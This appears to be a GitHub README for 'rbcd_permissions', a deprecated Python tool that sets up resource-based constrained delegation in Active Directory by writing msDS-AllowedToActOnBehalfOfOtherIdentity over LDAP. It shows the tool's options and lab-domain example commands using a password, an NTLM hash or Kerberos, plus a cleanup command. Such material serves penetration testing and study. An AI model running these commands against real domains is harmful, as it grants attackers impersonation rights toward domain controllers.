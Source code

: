 ## Depricated in favor of Impacket implementation 

https://github.com/SecureAuthCorp/impacket/pull/1108

# rbcd_permissions
Add SD for controlled computer object to a target object for resource-base constrained delegation (RBCD) using LDAP
```
optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        username for LDAP
  -p PASSWORD, --password PASSWORD
                        password for LDAP
  -H HASH, --hash HASH  LM:NT hash for LDAP
  -k, --kerberos        Kerberos Auth GSSAPI
  -d DOMAIN, --domain DOMAIN
                        LDAP server/domain
  -t TARGETDN, --targetDn TARGETDN
                        Target distinguishedName (Example: "CN=DC1,OU=Domain Controllers,DC=lab,DC=local")
  -c CONTRDN, --contrDn CONTRDN
                        Controlled computer distingushedName to add to msDS-AllowedToActOnBehalfOfOtherIdentity attribute
  -l LDAPSERVER, --ldapserver LDAPSERVER
                        LDAP server, in case it cant resolve
  --cleanup             Delete msDS-AllowedToActOnBehalfOfOtherIdentity value
```

Supports NTLM hash, kerberos and password auth.

## Password
```
python3 rbcd.py -t 'CN=DC1,OU=Domain Controllers,DC=lab,DC=local' -d lab.local -c CN=Server1,CN=Computers,DC=lab,DC=local -u administrator -p Password1 -l dc1.lab.local
Successfully added permissions!
```

## Kerberos
```
python3 rbcd.py -t 'CN=DC1,OU=Domain Controllers,DC=lab,DC=local' -d lab.local -c CN=Server1,CN=Computers,DC=lab,DC=local -k -l dc1.lab.local
Successfully added permissions!
```

## Cleanup
```
python3 rbcd.py -t 'CN=DC1,OU=Domain Controllers,DC=lab,DC=local' -d lab.local -c CN=Server1,CN=Computers,DC=lab,DC=local -u administrator -p Password1 -l dc1.lab.local --cleanup
Successfully cleaned up!
```
